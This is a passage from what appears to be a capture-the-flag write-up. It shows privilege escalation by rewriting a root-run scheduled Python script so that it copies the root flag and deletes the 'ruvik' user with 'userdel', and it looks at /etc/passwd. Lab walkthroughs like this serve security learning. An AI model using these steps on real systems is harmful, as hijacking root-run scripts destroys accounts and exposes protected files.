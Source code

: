after waiting for 2 minutes, the content of root.txt file (root flag) get's copied in .the_eye.txt file.

Now, we can look at /etc/passwd file,

![image](https://user-images.githubusercontent.com/67465230/186805547-e2be7693-d914-4db2-a922-85398772dabb.png)

we can see ruvik user. We can delete this user (_optional_).

Modifying the script a little bit,

```bash
cat > /var/.the_eye_of_ruvik.py 
#!/usr/bin/python3 

import subprocess 
import random 

stuff = ["I am watching you.","No one can hide from me.","Ruvik ...","No one shall hide from me","No one can escape from me"] 
sentence = "".join(random.sample(stuff,1)) 
subprocess.call("userdel ruvik",shell=True)
```

![image](https://user-images.githubusercontent.com/67465230/186805583-bbc9fffe-511e-4aab-ade2-dd46b0877cf6.png)

after 2 minutes, user ruvik gets deleted from the system.